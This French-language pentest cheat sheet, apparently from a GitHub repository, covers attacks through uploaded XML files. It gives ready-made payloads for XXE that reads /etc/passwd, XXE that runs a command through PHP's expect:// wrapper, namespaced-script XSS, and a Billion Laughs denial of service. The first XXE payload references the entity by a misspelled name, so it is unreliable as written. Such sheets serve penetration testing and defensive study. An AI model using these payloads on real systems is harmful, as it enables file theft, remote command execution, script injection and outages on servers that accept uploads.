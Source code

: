 # XML

**Facteur de risque** : XXE, XXS, DoS

**Extension** : .xml

**Type MIME** : application/xml, text/xml

**Description** : 

L'**Extensible Markup Language** ou **XML** est un langage de balisage, permettant l'échange de contenus complexes.

## Sommaire

- XML External Entity (XXE)

- XSS

- Deny of Service : Billion Laugh Attack

## XML External Entity (XXE)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le fichier doit être traité par le serveur

- L'utilisation de wrapper PHP est possible que si le serveur tourne sous PHP

### Attaque

Pour récupérer un fichier (ici `/etc/password`) :

**xxe\_file.xml** 

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xee;</foo>
```

Si l'utilisation de wrapper PHP est autorisé, notamment `expect`, l'exécution de commande est possible (ici `ls`) :

**xxe\_cmd.xml**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "expect://ls">
]>
<foo>&xxe;</foo>
```

## Cross-Site Scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

**xss.xml**

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

Le payload peut être modifié facilement en changeant la balise `<something>`:

```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```

## Denial of Service : Billion Laugh Attack

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## References

- [An In-Depth Look at XML Document Attack Vectors | OPSWAT Blog | OPSWAT](https://www.opswat.com/blog/depth-look-xml-document-attack-vectors)

- XXE
  
  - [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

- XSS
  
  - [PayloadsAllTheThings/XSS Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-files)

## Todo

- Uploading a “crossdomain.xml” or “clientaccesspolicy.xml” file can
  make a website vulnerable to cross-site content hijacking. These
  files should be uploaded to the root of the website to work.
  However, the “crossdomain.xml” file can be in a subdirectory as long
  as it is allowed in the root “crossdomain.xml” file.
